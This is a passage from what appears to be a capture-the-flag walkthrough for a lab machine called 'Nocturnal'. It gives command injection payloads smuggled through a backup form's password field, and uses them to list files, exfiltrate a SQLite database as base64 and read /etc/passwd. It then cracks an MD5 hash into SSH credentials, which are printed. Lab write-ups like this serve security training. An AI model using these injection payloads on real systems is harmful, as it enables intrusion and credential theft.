 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414172644.png)

I tried getting a shell at this point but was unable to do it, it seems the server kind of interpret the input but is unable to get us a shell, let's look around the machine, if we remember correctly, there's a `nocturnal_database.db` file at `/nocturnal_database`, if we check the contents of this directory, we can find this:

```
password=%0Abash%09-c%09"ls%09-la%09/var/www/nocturnal_database"%0A&backup=Create+Backup
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414172837.png)

There it is, we can use `base64` to get the file into our local machine:

```
password=%0Abash%09-c%09"base64%09/var/www/nocturnal_database/nocturnal_database.db"%0A&backup=Create+Backup
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414172949.png)

We need to copy the content of it and do:


```
echo 'BASE64 STRING' | base64 -d > nocturnal_database.db
```

With this, we can now analyze the file using `sqlitebrowser`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414173043.png)

We see some hashes, we can try using the command injection to check which user has a bash console, since cat is disabled with this, we can try head:

```
password=%0Abash%09-c%09"head%09-n%0950%09/etc/passwd"%0A&backup=Create+Backup
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414173258.png)

Seems like the user we need is `tobias`, let's crack the hash, it is a simple `md5` hash:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414173336.png)


There we go, we finally got credentials:

```
tobias:slowmotionapocalypse
```

We can go to ssh with these:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250414173415.png)

Let's go with privilege escalation.
